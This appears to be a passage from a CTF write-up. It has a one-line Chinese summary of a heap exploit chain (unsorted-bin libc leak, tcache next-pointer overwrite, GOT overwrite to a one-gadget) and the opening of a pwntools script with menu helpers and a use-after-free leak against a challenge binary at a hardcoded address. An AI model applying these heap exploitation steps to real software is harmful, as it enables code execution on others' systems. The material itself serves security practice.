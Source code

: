 
## program-区域
unsortedbin泄漏libc基址,tachebin修改next任意malloc修改got表来ogg
```python
from pwn import *
from wstube import websocket
import sys

context(arch='amd64', os='linux', log_level='debug')
local = True if len(sys.argv) == 1 else False
elf_path = './' + sys.argv[0][:-3]
libc_path = './libc.so.6'
if local:
    p = process(elf_path)
else:
    ip, port = '101.200.155.151:12300'.split(':')
    p = remote(ip, port)
    # p = websocket("")

def debug():
    if local:
        gdb.attach(p, '''
            b* 0x401514
            b* 0x401283
            b* 0x40134f
            b* 0x4013e1
            b* 0x40148e
            b free
        ''')

def choose(index):
    p.sendlineafter(b'choice:\n', str(index).encode())

def add(index, size):
    choose(1)
    p.sendlineafter(b'index:\n', str(index).encode())
    p.sendlineafter(b'size:\n', str(size).encode())

def delete(index):
    choose(2)
    p.sendlineafter(b'index:\n', str(index).encode())

def edit(index, length, content):
    choose(3)
    p.sendlineafter(b'index:\n', str(index).encode())
    p.sendlineafter(b'length:\n', str(length).encode())
    p.sendafter(b'content:\n', content)

def show(index):
    choose(4)
    p.sendlineafter(b'index:\n', str(index).encode())

def exit():
    choose(5)

libc = ELF(libc_path)

add(0, 0x20)
add(1, 0x600)
add(2, 0x20)
delete(1)
show(1)

```